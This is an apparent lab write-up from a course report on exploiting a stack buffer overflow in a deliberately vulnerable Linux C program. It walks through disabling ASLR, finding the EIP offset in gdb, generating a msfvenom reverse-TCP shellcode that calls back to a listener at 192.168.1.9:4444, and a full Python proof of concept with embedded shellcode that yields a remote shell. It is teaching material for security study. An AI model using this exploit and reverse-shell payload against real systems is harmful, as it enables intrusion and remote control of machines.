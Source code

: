 # Stack Overflow Foundation
## 1. What is Stack Overflow
In software, a stack overflow occurs if the call stack pointer exceeds the stack bound. The call stack may consist of a limited amount of address space, often determined at the start of the program. The size of the call stack depends on many factors, including the programming language, machine architecture, multi-threading, and amount of available memory. When a program attempts to use more space than is available on the call stack (that is, when it attempts to access memory beyond the call stack's bounds, which is essentially a buffer overflow), the stack is said to overflow, typically resulting in a program crash
![](https://github.com/7heKnight/7heknight.py/blob/main/Exploit/reports/INE/Linux%20Overflow%20Foundation/bo_imagination.png)
## 2. Overflowing Program on Linux
### 2.1 Setting up environment
First up, we need to turn off Address Space Layout Randomization (ASLR):
```bash
$ echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```

Program source code:
```c
#include<stdio.h>
#include<unistd.h>

int overflow(){
  char buffer[500];
  int userinput;
  userinput = read(0, buffer, 700);
  printf("\nUser provided %d bytes. Buffer content: %s", userinput, buffer);
  return 0;
}

int main(int argc, char*argv[]){
  overflow();
  return 0;
}
```

In here, we will use complier `gcc` to compile to code
```sh
$ gcc oversize_overflow.c  -fno-stack-protector -z execstack -o oversize_overflow
```


### 2.2 Overriding EIP
First up, we know the buffer size around 500 bytes or more, let's check how long it will crash and override the `EIP`, so let's try to fuzz the program to crash

Let's make 500 bytes of `A` and send to program to see if it crash
```bash
$ python3 -c "print('A'*500)" | ./oversize_overflow
```
![[image1.png]]
As we can see, the program works good, so let's try with bigger size:
```bash
$ python3 -c "print('A'*700)" | ./oversize_overflow
```
![[image2.png]]
At this time, the program crashed with 700 bytes size. Now on, using the gdb debugger to determine and get exact offset and override the `EIP`:
```bash
$ gdb -q oversize_overflow
```
In my gdb debugger, I've already installed [peda](https://github.com/longld/peda) , so there are many tool you might not see or you can use another tool likewise is ok.
- Creating fuzz buffer to get exact stack size:
```sh
gdb-peda$ pattern create 700 1.txt
Writing pattern of 700 chars to filename "1.txt"
gdb-peda$ r < 1.txt
```
![[image3.png]]
Here is the reuslt, and we can see the `EIP` (`0x4e734138`) point to invalid address, so the program crashed. Now, we are going to get exact size:
```sh
gdb-peda$ pattern offset 0x4e734138
1316176184 found at offset: 516
```
Get back to terminal, create the basic exploit to see if it overrided:
```sh
$ python -c "print('A'*516+'B'*4+'C*100')" > input.txt
```
Run the input file in gdb debugger, we can see the `EIP` overrided with 0x42424242 (meant BBBB). We are completely done with overriding the `EIP`.
![[image4.png]]
### 2.3 Execute the Shellcode
#### 2.3.1 Shellcode generation
To generate the shellcode, in this section we will use msfvernom to genterate it
```bash
$ msfvenom -p linux/x86/shell_reverse_tcp lhost=192.168.1.9 lport=4444 -b "\x00" -f python -o payload.py --platform linux -a x86
```
- Options description:
```sh
-p: Which mean payload
-b: bad characters caused crash
-f: file type
-o: output
-a: architecture
--platform: platform for the payload
lhost: listening host
lport: listening port
```
![[image5.png]]

#### 2.3.2 Finding the returning address to execute the shellcode
We got the shellcode, now we need to find the address to override the `EIP` and point it to the shellcode to make it execute. To do this, we will make `A` buffer and open the `gdb`.
```bash
$ python -c "print('A'*700)" > input.txt

gdb-peda$ r < input.txt
```
After run, the program will be crashed, use `x/20wx $esp-0x230` to show stack similar with below picture.
![[image6.png]]
In the picture, we can see the buffer start in `0xffffd030 + 0x8`, so `0xffffd038` will be our return address
#### 2.3.3 Proof of Concept (PoC)
We will edit the `payload.py` which we've already created above:
```python
#!/usr/bin/python3
import struct

buf =  b""
buf += b"\xdb\xc3\xd9\x74\x24\xf4\x5d\x29\xc9\xbe\x4d\x2c\x0e"
buf += b"\xe0\xb1\x12\x83\xed\xfc\x31\x75\x13\x03\x38\x3f\xec"
buf += b"\x15\xf3\xe4\x07\x36\xa0\x59\xbb\xd3\x44\xd7\xda\x94"
buf += b"\x2e\x2a\x9c\x46\xf7\x04\xa2\xa5\x87\x2c\xa4\xcc\xef"
buf += b"\x6e\xfe\x2e\xe6\x06\xfd\x30\xe9\x8a\x88\xd0\xb9\x55"
buf += b"\xdb\x43\xea\x2a\xd8\xea\xed\x80\x5f\xbe\x85\x74\x4f"
buf += b"\x4c\x3d\xe1\xa0\x9d\xdf\x98\x37\x02\x4d\x08\xc1\x24"
buf += b"\xc1\xa5\x1c\x26"

with open('input.txt', 'wb') as file:
    offset = 516
    nop = b'\x90'*16
    junk = b'A'
    ret_add = struct.pack('<L', 0xffffd038)
    payload = nop + buf + junk * (offset - 16 -len(buf)) + ret_add
    file.write(payload)
```
After run we have text file `input.txt`![[image7.png]]
Finally, we got the result, shellcode is connected![[image8.png]]
![[image9.png]]

------------------------------------------------------- Done -------------------------------------------------------
